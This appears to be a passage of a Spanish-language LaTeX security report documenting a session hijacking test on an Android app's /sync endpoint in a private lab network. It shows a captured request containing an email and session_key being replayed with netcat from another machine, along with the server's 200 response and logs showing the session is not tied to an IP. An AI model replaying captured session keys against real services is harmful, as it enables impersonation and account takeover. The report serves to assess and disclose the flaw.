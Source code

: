 \documentclass[11pt, a4paper, twoside]{article}
\begin{document}
\subsubsection{Robo de sesión}
Con el tráfico capturado, podemos realizar la misma petición desde una PC distinta al cliente original. Utilizando el comando \texttt{netcat}, se envió una copia del tráfico capturado al servidor. El resultado de esta prueba se puede observar en  y , en donde se transcribieron el request y la respuesta recibida, respectivamente.

\begin{figure}[H]
\begin{Verbatim}[frame=single,fontsize=\small]
$ nc 192.168.0.103 8888
POST /sync?email=test2%40test.com&session_key=q%2BlY0j%2FmskTx4GC%2F73sgkg%3D%3D HTTP/1.1
Content-Type: application/json; charset=UTF-8
User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.1.2; sdk Build/MASTER)
Host: 192.168.0.103:8888
Connection: Keep-Alive
Accept-Encoding: gzip
Content-Length: 27

["YWJvdXQ6Ymxhbms\u003d\n"]
\end{Verbatim}
\caption{Simulamos un request \textbf{{\color{red}/sync}} desde otra PC}
\label{fig:sync-simulado1}
\end{figure}

\begin{figure}[H]
\begin{Verbatim}[frame=single,fontsize=\small]
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/2.7.6
Date: Sun, 22 Feb 2015 20:41:00 GMT
\end{Verbatim}
\caption{Respuesta obtenida en el cliente luego de hacer el request}
\label{fig:sync-simulado2}
\end{figure}

\begin{figure}[H]
\begin{Verbatim}[frame=single,fontsize=\small]
192.168.0.103 - - [22/Feb/2015 17:40:58] "POST /sync?email=test2%40test.com
&session_key=q%2BlY0j%2FmskTx4GC%2F73sgkg%3D%3D HTTP/1.1" 200 -
192.168.0.8 - - [22/Feb/2015 17:41:00] "POST /sync?email=test2%40test.com
&session_key=q%2BlY0j%2FmskTx4GC%2F73sgkg%3D%3D HTTP/1.1" 200 -
\end{Verbatim}
\caption{Output producido en el servidor de python luego del request}
\label{fig:sync-simulado3}
\end{figure}

Además, en  podemos apreciar el output producido en la consola del servidor, en donde figuran ambos requests, el original producido por el cliente de android (\textbf{IP 192.168.0.103}), y el fraudulento, producido por la \textbf{IP 192.168.0.8}. Ambos son respondidos con un HTTP 200, lo que significa que las sesiones no recuerdan la IP desde la que fueron producidas, lo que en este caso nos permite robar una sesión, simplemente capturando su \texttt{session\_key}. Es decir, hacernos pasar por el usuario, con todas las implicancias que eso conlleva.
\end{document}

